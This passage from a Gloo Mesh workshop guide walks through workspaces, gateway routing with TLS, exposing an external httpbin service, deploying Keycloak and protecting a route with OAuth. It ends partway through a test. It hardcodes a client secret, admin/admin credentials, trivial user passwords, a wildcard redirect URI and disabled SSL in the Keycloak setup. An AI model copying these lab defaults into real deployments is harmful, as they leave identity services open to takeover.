Let's create the `gateways` workspace which corresponds to the `istio-gateways` and the `gloo-mesh-addons` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Then, the Gateway team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `gateways` workspace (so the `istio-gateways` or the `gloo-mesh-addons` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: gateways
  namespace: gloo-mesh-addons
spec:
  importFrom:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
    - kind: ALL
      labels:
        expose: "true"
  exportTo:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
EOF
```

The Gateway team has decided to import the following from the workspaces that have the label `allow_ingress` set to `true` (using a selector):
- all the Kubernetes services exported by these workspaces
- all the resources (RouteTables, VirtualDestination, ...) exported by these workspaces that have the label `expose` set to `true`


## Lab 8 - Create the bookinfo workspace <a name="lab-8---create-the-bookinfo-workspace-"></a>

We're going to create a workspace for the team in charge of the Bookinfo application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `bookinfo` workspace which corresponds to the `bookinfo-frontends` and `bookinfo-backends` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Then, the Bookinfo team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `bookinfo` workspace (so the `bookinfo-frontends` or the `bookinfo-backends` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: SERVICE
      labels:
        app: ratings
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Bookinfo team has decided to export the following to the `gateway` workspace (using a reference):
- the `productpage` and the `reviews` Kubernetes services
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`

This is how the environment looks like with the workspaces:


## Lab 9 - Expose the productpage through a gateway <a name="lab-9---expose-the-productpage-through-a-gateway-"></a>
[](https://youtu.be/emyIu99AOOA "Video Link")

In this step, we're going to expose the `productpage` service through the Ingress Gateway using Gloo Mesh.

The Gateway team must create a `VirtualGateway` to configure the Istio Ingress Gateway in cluster1 to listen to incoming requests.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
EOF
```

Then, the Gateway team should create a parent `RouteTable` to configure the main routing.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-bookinfo
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-bookinfo.example.com
    - cluster2-bookinfo.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: bookinfo
          - labels:
              expose: "true"
            workspace: gateways
        sortMethod: ROUTE_SPECIFICITY
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```

In this example, you can see that the Gateway team is delegating the routing details to the `bookinfo` and `httpbin` workspaces. The teams in charge of these workspaces can expose their services through the gateway.

The Gateway team can use this main `RouteTable` to enforce a global WAF policy, but also to have control on which hostnames and paths can be used by each application team.

Then, the Bookinfo team can create a `RouteTable` to determine how they want to handle the traffic.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
              cluster: cluster1
            port:
              number: 9080
EOF
```
Let's add the domains to our `/etc/hosts` file:

```bash
./scripts/register-domain.sh cluster1-bookinfo.example.com ${HOST_GW_CLUSTER1}
./scripts/register-domain.sh cluster1-httpbin.example.com ${HOST_GW_CLUSTER1}
```

You can access the `productpage` service
using this URL: [http://cluster1-bookinfo.example.com/productpage](http://cluster1-bookinfo.example.com/productpage).

You should now be able to access the `productpage` application through the browser.
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTP)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: `http://cluster1-bookinfo.example.com`, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Gloo Mesh translates the `VirtualGateway` and `RouteTable` into the corresponding Istio objects (`Gateway` and `VirtualService`).

Now, let's secure the access through TLS.
Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store them in a Kubernetes secret running the following commands:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways create secret generic tls-secret \
  --from-file=tls.key=tls.key \
  --from-file=tls.crt=tls.crt
```

Finally, the Gateway team needs to update the `VirtualGateway` to use this secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
# ---------------- Redirect to https --------------------
      httpsRedirect: true
# -------------------------------------------------------
    - http: {}
# ---------------- SSL config ---------------------------
      port:
        number: 443
      tls:
        parameters:
          minimumProtocolVersion: TLSv1_3
        mode: SIMPLE
        secretName: tls-secret
# -------------------------------------------------------
      allowedRouteTables:
        - host: '*'
EOF
```

You can now access the `productpage` application securely through the browser.
You can access the `productpage` service using this URL: <https://cluster1-bookinfo.example.com/productpage>.

Notice that we specificed a minimumProtocolVersion, so if the client is trying to use an deprecated TLS version the request will be denied.

To test this, we can try to send a request with `tlsv1.2`:

```console
curl --tlsv1.2 --tls-max 1.2 --key tls.key --cert tls.crt https://cluster1-bookinfo.example.com/productpage -k
```

You should get the following output:

```nocopy
curl: (35) error:1409442E:SSL routines:ssl3_read_bytes:tlsv1 alert protocol version
```

Now, you can try the most recent `tlsv1.3`:

```console
curl --tlsv1.3 --tls-max 1.3 --key tls.key --cert tls.crt https://cluster1-bookinfo.example.com/productpage -k
```

And after this you should get the actual Productpage.
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTPS)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: `https://cluster1-bookinfo.example.com`, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available-secure.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Otel metrics", () => {
  it("cluster1 is sending metrics to telemetryGateway", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app.kubernetes.io/name=prometheus -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9090/api/v1/query?query=istio_requests_total" }).replaceAll("'", "");
    expect(command).to.contain("cluster\":\"cluster1");
  });
});


EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/bookinfo/gateway-expose/tests/otel-metrics.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=150 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

This diagram shows the flow of the request (through the Istio Ingress Gateway):


## Lab 10 - Create the httpbin workspace <a name="lab-10---create-the-httpbin-workspace-"></a>

We're going to create a workspace for the team in charge of the httpbin application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `httpbin` workspace which corresponds to the `httpbin` namespace on `cluster1`:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: httpbin
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: httpbin
EOF
```

Then, the Httpbin team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `httpbin` workspace:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: httpbin
  namespace: httpbin
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: in-mesh
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Httpbin team has decided to export the following to the `gateway` workspace (using a reference):
- the `in-mesh` Kubernetes service
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`


## Lab 11 - Expose an external service <a name="lab-11---expose-an-external-service-"></a>
[](https://youtu.be/jEqDoITpRss "Video Link")

In this step, we're going to expose an external service through a Gateway using Gloo Mesh and show how we can then migrate this service to the Mesh.

Let's create an `ExternalService` corresponding to `httpbin.org`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - httpbin.org
  ports:
  - name: http
    number: 80
    protocol: HTTP
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}
EOF
```

Now, you can create a `RouteTable` to expose `httpbin.org` through the gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
EOF
```

You should now be able to access `httpbin.org` external service through the gateway.

Make sure the domain is in our `/etc/hosts` file:

```bash
./scripts/register-domain.sh cluster1-httpbin.example.com ${HOST_GW_CLUSTER1}
```

You can access the `httpbin` service from the second cluster using this URL: [https://cluster1-httpbin.example.com/get](https://cluster1-httpbin.example.com/get).
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Let's update the `RouteTable` to direct 50% of the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
          weight: 50
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
          weight: 50
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Got the expected status code 200', () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com/get`, retCode: 200 }));
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

If you refresh your browser, you should see that you get a response either from the local service or from the external service.

When the response comes from the external service (httpbin.org), there's a `X-Amzn-Trace-Id` header.

And when the response comes from the local service, there's a `X-B3-Parentspanid` header.

Finally, you can update the `RouteTable` to direct all the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Got the expected status code 200', () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com/get`, retCode: 200 }));
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

If you refresh your browser, you should see that you get responses only from the local service.

This diagram shows the flow of the requests :


Let's delete the `ExternalService` we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete externalservices.networking.gloo.solo.io httpbin
```


## Lab 12 - Deploy Keycloak <a name="lab-12---deploy-keycloak-"></a>

In many use cases, you need to restrict the access to your applications to authenticated users.

OpenID Connect (OIDC) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers – or support multiple ones at the same time – with minimal, if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-Based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this lab, we're going to install Keycloak. It will allow us to setup OIDC workflows later.

First, we need to define an ID and secret for a "client", which will be the service that delegates to Keycloak for authorization:

```bash
KEYCLOAK_CLIENT=gloo-ext-auth
KEYCLOAK_SECRET=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri
```

We need to store these in a secret on each cluster that we'll be calling Keycloak from:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF

---
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: gloo-mesh-addons
type: extauth.solo.io/oauth
stringData:
  client-id: ${KEYCLOAK_CLIENT}
  client-secret: ${KEYCLOAK_SECRET}
EOF
```

We need to supply the initial configuration of the realm we'll use for these labs. This will include two users that we can use later:

- User1 credentials: `user1/password`
  Email: user1@example.com

- User2 credentials: `user2/password`
  Email: user2@solo.io

Create this configuration in a `ConfigMap`:

```bash
kubectl --context ${MGMT} create namespace keycloak

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: realms
  namespace: keycloak
data:
  workshop-realm.json: |-
    {
      "realm": "workshop",
      "enabled": true,
      "displayName": "solo.io",
      "accessTokenLifespan": 1800,
      "sslRequired": "none",
      "users": [
        {
          "username": "user1",
          "enabled": true,
          "email": "user1@example.com",
          "attributes": {
            "group": [
              "users"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"JsfNbCOIdZUbyBJ+BT+VoGI91Ec2rWLOvkLPDaX8e9k=\",\"salt\":\"P5rtFkGtPfoaryJ6PizUJw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        },
        {
          "username": "user2",
          "enabled": true,
          "email": "user2@solo.io",
          "attributes": {
            "group": [
              "users"
            ],
            "list": [
              "a", "b", "c"
            ],
            "show_personal_data": [
              "false"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"RITBVPdh5pvXOa4JzJ5pZTE0rG96zhnQNmSsKCf83aU=\",\"salt\":\"drB9e5Smf3cbfUfF3FUerw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        }
      ],
      "clients": [
        {
          "clientId": "${KEYCLOAK_CLIENT}",
          "secret": "${KEYCLOAK_SECRET}",
          "redirectUris": [
            "*"
          ],
          "webOrigins": [
            "+"
          ],
          "authorizationServicesEnabled": true,
          "directAccessGrantsEnabled": true,
          "serviceAccountsEnabled": true,
          "protocolMappers": [
            {
              "name": "group",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "group",
                "user.attribute": "group",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "list",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "list",
                "user.attribute": "list",
                "access.token.claim": "true",
                "id.token.claim": "true",
                "jsonType.label": "String",
                "multivalued": "true"
              }
            },
            {
              "name": "show_personal_data",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "show_personal_data",
                "user.attribute": "show_personal_data",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "name",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-property-mapper",
              "config": {
                "claim.name": "name",
                "user.attribute": "username",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            }
          ]
        }
      ],
      "components": {
        "org.keycloak.userprofile.UserProfileProvider": [
          {
            "providerId": "declarative-user-profile",
            "config": {
              "kc.user.profile.config": [
                "{\"attributes\":[{\"name\":\"username\"},{\"name\":\"email\"}],\"unmanagedAttributePolicy\":\"ENABLED\"}"
              ]
            }
          }
        ]
      }
    }
EOF
```

Now let's install Keycloak:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  ports:
  - name: http
    port: 8080
    targetPort: 8080
  selector:
    app: keycloak
  type: LoadBalancer
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  replicas: 1
  selector:
    matchLabels:
      app: keycloak
  template:
    metadata:
      labels:
        app: keycloak
    spec:
      containers:
      - name: keycloak
        image: quay.io/keycloak/keycloak:25.0.5
        args: ["start-dev", "--import-realm"]
        env:
        - name: KEYCLOAK_ADMIN
          value: admin
        - name: KEYCLOAK_ADMIN_PASSWORD
          value: admin
        ports:
        - name: http
          containerPort: 8080
        readinessProbe:
          httpGet:
            path: /realms/workshop
            port: 8080
        volumeMounts:
        - name: realms
          mountPath: /opt/keycloak/data/import
      volumes:
      - name: realms
        configMap:
          name: realms
EOF
```

Wait while Keycloak finishes rolling out:

```bash
kubectl --context ${MGMT} -n keycloak rollout status deploy/keycloak
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Keycloak", () => {
  it('keycloak pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.MGMT, namespace: "keycloak", k8sObj: "keycloak" }));
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/deploy-keycloak/tests/pods-available.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Retrieve enterprise-networking ip", () => {
  it("A value for load-balancing has been assigned", () => {
    let cli = chaiExec("kubectl --context " + process.env.MGMT + " -n keycloak get svc keycloak -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/deploy-keycloak/tests/keycloak-ip-is-attached.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
timeout 2m bash -c "until [[ \$(kubectl --context ${MGMT} -n keycloak get svc keycloak -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done"
-->

Let's set the environment variables we need:

```bash
export ENDPOINT_KEYCLOAK=$(kubectl --context ${MGMT} -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):8080
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK%:*})
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK##*:})
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_KEYCLOAK + "' can be resolved in DNS", () => {
    it(process.env.HOST_KEYCLOAK + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_KEYCLOAK, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
echo "Waiting for Keycloak to be ready at $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token"
timeout 300 bash -c 'while [[ "$(curl -m 2 -s -o /dev/null -w ''%{http_code}'' $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token)" != "405" ]]; do printf '.';sleep 1; done' || false
-->


## Lab 13 - Securing the access with OAuth <a name="lab-13---securing-the-access-with-oauth-"></a>
[](https://youtu.be/fKZjr0AYxYs "Video Link")

In this step, we're going to secure the access to the `httpbin` service using OAuth.

You need to create an `ExtAuthPolicy`, which is a CRD that contains authentication information. We've already got a secret named `oidc` that we can reference in this policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://cluster1-httpbin.example.com"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: gloo-mesh-addons
            issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
            logoutPath: /logout
            afterLogoutUrl: "https://cluster1-httpbin.example.com/get"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
            identityToken:
              claimsToHeaders:
                - claim: email
                  header: X-Email
EOF
```

Finally, you need to update the `RouteTable` to use this `ExtAuthPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```
<!--bash
ATTEMPTS=1
timeout 60 bash -c 'while [[ "$(curl -m 2 --max-time 2 --insecure -s -o /dev/null -w ''%{http_code}'' https://cluster1-httpbin.example.com/get)" != "302" ]]; do sleep 5; done'
export USER1_COOKIE=$(node tests/keycloak-token.js "https://cluster1-httpbin.example.com/get" user1)
export USER2_COOKIE=$(node tests/keycloak-token.js "https://cluster1-httpbin.example.com/get" user2)
ATTEMPTS=1
until ([ ! -z "$USER2_COOKIE" ] && [[ $USER2_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER2_COOKIE=$(node tests/keycloak-token.js "https://cluster1-httpbin.example.com/get" user2)
done
ATTEMPTS=1
until ([ ! -z "$USER1_COOKIE" ] && [[ $USER1_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER1_COOKIE=$(node tests/keycloak-token.js "https://cluster1-httpbin.example.com/get" user1)
done
echo "User1 token: $USER1_COOKIE"
echo "User2 token: $USER2_COOKIE"
-->

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {
  const cookieString = process.env.USER1_COOKIE;

  it("The httpbin page isn't accessible without authenticating", () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', retCode: 302 }));

  it("The httpbin page is accessible after authenticating", () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 200 }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/imported/gloo-mesh-2-0/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/authentication.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
